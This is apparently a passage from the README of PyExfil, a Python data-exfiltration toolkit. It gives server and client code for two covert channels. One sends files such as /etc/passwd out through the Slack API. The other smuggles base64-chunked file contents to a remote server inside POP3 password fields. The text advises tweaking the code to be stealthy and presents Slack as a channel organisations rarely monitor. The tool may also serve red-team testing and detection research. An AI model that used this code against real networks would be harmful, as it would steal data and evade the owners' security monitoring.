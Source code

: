 #### Slack
Slack exfiltration uses the Slack API to move files around. Please notice you will need to tweak the code to make it stealthy. Right now it is defaultly designed to be noisy and appear on the user's log to make sure you're using this in a 'good' manner.

Since a lot of organizations use Slack today and in our personal anecdote most of them don't monitor, restrict or validate the utilization of it, we've decided to find creative way to do that. Especially since Slack is allowed on firewalls for organizations that work with it, it uses SSL and is rarely monitored it is a very interesting prospect for involuntary backups...

Server:
```python
from pyexfil.network.Slack.slack_server import SlackExfiltrator

slackExf = SlackExfiltrator(slackSlaveID="11111FD", slackToken="xoxo-abc", encKey="Abc!23")
slackExf._connect2Slack()
slackExf.Listen()
```

Client:
```python
from pyexfil.network.Slack.slack_server import SlackExfiltrator

slackExf = SlackExfiltrator(slackID="11111FD", slackToken="xoxo-abc", encKey="Abc!23")
slackExf._connect2Slack()
slackExf.ExfiltrateFile(file_path="/etc/passwd")
```

#### POP3 Authentication
This module will attempt to authenticate over POP3 to a remote server. The password itself will be the data that is exfiltrated. We will welcome wrappers to this module. It's pretty bad...

Server:
```python
from pyexfil.network.POP3.pop_exfil_server import _open_socket

sockObj = _open_socket()
    while True:
        try:
            conn, address = sockObj.accept()
            sys.stdout.write("[+] Received a connection from %s:%s.\n" % (address[0], address[1]))
            start_new_thread(clientthread ,(conn,))
        except KeyboardInterrupt:
            sys.stdout.write("\nGot KeyboardInterrupt, exiting now.\n")
            sys.exit(ERR)
```

Client:
```python
from pyexfil.network.POP3.pop_exfil_client import get_file, connect_to_server

b64_file, file_crc = get_file(FLOC)
    sock = connect_to_server()
    data = sock.recv(MAX_SIZE)
    if data.find("+OK POP3 service") == -1:
        sys.stderr.write("[-] Server header did not match.\nHalting exfiltration.\n")
        sys.exit(ERR)
    sock.send("USER exfil\n")
    data = sock.recv(MAX_SIZE)
    if data.find("+OK password required for user exfil") == -1:
        sys.stderr.write("[-] Server did not accept the user. Something is wrong.\n")
        sys.exit(ERR)
    all_data_packets = [b64_file[i:i+CHUNK] for i in range(0, len(b64_file), CHUNK)]
    sock.send(base64.b64encode("%s;%s;%s;0" % (FLOC, file_crc, len(all_data_packets)))) # filename, crc32, packets_count, this_packet_count
    sys.stdout.write("[+] Server passed auth and has received the header.\n")
    data = sock.recv(MAX_SIZE)
```